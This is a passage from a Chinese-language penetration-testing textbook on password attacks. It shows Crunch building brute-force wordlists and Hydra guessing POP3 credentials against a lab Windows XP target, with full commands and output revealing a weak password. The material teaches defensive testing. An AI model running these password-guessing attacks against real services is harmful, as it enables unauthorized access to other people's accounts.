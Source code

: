 ```
root@kali:~# **crunch 7 7 AB**
Crunch will now generate the following amount of data: 1024 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 128
AAAAAAA
AAAAAAB
--*snip*--
```

这个示例生成了仅由字符 *A* 和 *B* 组成的所有可能七字符组合的列表。一个更有用但更大的示例是输入 `crunch 7 8`，这将生成一个包含长度在七到八个字符之间的所有可能字符组合的列表，使用默认的 Crunch 字符集，即小写字母。这种技术被称为 *密钥空间暴力破解*。虽然在你的一生中尝试每一种可能的密码组合是不现实的，但可以尝试特定的子集；例如，如果你知道客户的密码策略要求密码至少七个字符长，那么尝试所有七字符和八字符密码可能会导致破解成功——即使是那些没有根据字典单词设置密码的稀有用户。

### 注意

开发一个完善的字典或字典集是一个不断发展的过程。在本章的练习中，你可以使用我们在 示例 9-2 中创建的简短样本字典，但随着你在这一领域积累经验，你将会开发出更复杂、更适用于客户任务的字典。

现在让我们看看如何使用我们的字典来猜测目标服务上的密码。

### 使用 Hydra 猜测用户名和密码

如果你有一组凭证，想要尝试在需要登录的运行中的服务上使用，你可以手动一个一个输入，或者使用工具来自动化这个过程。Hydra 是一个在线密码猜测工具，可以用来测试运行服务的用户名和密码。（遵循将安全工具命名为赫拉克勒斯十二项劳绩中受害者的传统，Hydra 被命名为希腊神话中有多个头的蛇怪。）示例 9-5 展示了如何使用 Hydra 进行在线密码猜测的示例。

示例 9-5。使用 Hydra 猜测 POP3 用户名和密码

```
root@kali:~# **hydra -L userlist.txt -P passwordfile.txt 192.168.20.10 pop3**
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2015-01-12 15:29:26
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10   login: georgia   password: password❶
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish)
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-12 15:29:48
```

示例 9-5 展示了如何通过运行用户名和密码文件来使用 Hydra 猜测 POP3 凭证，针对我们的 Windows XP 目标进行查找。此命令使用 `-L` 标志指定用户名文件，使用 `-P` 指定密码列表文件，并指定 `pop3` 协议。Hydra 发现 *georgia* 用户的密码是 `password` ❶。（*georgia* 使用如此不安全的密码，真该羞愧！）

有时你会知道某个特定的用户名在服务器上存在，你只需要一个有效的密码来配合它。例如，我们在第六章中使用了 `SMTP VRFY` 命令来查找 Windows XP 目标上的 SLMail 服务器上的有效用户名。正如你在示例 9-6 中看到的，我们可以使用*`-`*`l` 标志代替 *`-`*`L` 来指定一个特定的用户名。知道这一点后，让我们来寻找 `pop3` 服务器上 *georgia* 用户的有效密码。

示例 9-6。使用特定用户名与 Hydra

```
root@kali:~# **hydra -l georgia -P passwordfile.txt 192.168.20.10 pop3**
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10   login: georgia   password: password❶
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish)
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-07 20:22:23
```
